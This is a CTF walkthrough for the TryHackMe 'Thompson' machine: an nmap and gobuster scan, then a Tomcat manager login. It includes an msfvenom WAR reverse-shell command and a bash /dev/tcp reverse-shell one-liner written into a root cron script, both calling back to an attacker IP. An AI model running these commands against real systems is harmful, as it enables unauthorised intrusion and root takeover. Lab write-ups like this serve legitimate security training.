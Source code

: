 # [Thompson TryHackMe Writeup/Walkthrough][1]

boot2root machine for FIT and bsides guatemala CTF

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.9.253
Host is up (0.067s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

Seems like we have server running on `port 8080`. The website has nothing interesting. So I ran `gobuster` scan.

Command -> `gobuster dir -u http://<IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x txt,html,php`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.171:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/16 16:48:41 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
===============================================================
2021/05/16 16:50:47 Finished
===============================================================
```

I checked `/manager` and `/host-manager` they both required password. On `/manager`, I tried `admin:admin`. It didn't work and gave me an error with some useful information.

![Password](images/manager_password.png)
> Seems like we have username and password.

Refresh the page and login using this credentials. BAAM! We have the access. Did some recon and found a useful article on [Ways to Exploit Tomcat Manager][3].

We can upload `war` shell and get the access. To create reverse shell, use `msfvenom`.

Command -> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f war > shell.war`.

![War Shell](images/war_shell.png)

You we can upload this file into `WAR` section and deploy the file.

![Upload Shell](images/war_website.png)


The page will reload and you will see the path for shell.

![Shell Location](images/shell.png)

Start a listener using `netcat`. Command -> `nc -lvnp 4444`. Go to the site `http://<IP>:8080/shell`.

You will see a connection established.

![Got Connection](images/got_connection.png)
> Now we have access as *tomcat*.

We can easily get the user flag from the home directory.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is one more file `id.sh` in the user directory.

![Files](images/files_user.png)

`id.sh` is running `id` command and writing the content in `test.txt`. The content of `test.txt` seems like `root` user's ID.

That means this file is running as `root` and fortunately we have write permissions to this file. We can simply edit this file and can get the root flag/access.

#### Method 1: Get Root Access

To get the root access. We can add one liner bash shell command. To do this -> `echo "bash -i >& /dev/tcp/<YOUR_IP/4445 0>&1" > id.sh`.

Also, start a listener -> `nc -lvnp 4445`. Wait for a while you will get the access. It may take sometime to get the connection depending on `cronjob` settings.

You know what to do next :stuck_out_tongue_winking_eye:

#### Method 2: Get Root Flag Directly

To get the root flag. We can simple type -> `echo "cat /root/root.txt > test.txt" > id.sh`. As we already know the location of the file. We can simply print the content of the file to the terminal and redirects the output to `test.txt` file.

![Exploit Code](images/exploit.png)

Check the content of the `test.txt` file. If may take sometime.

![Root Flag](images/root_flag.png)


[1]: https://tryhackme.com/room/bsidesgtthompson
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
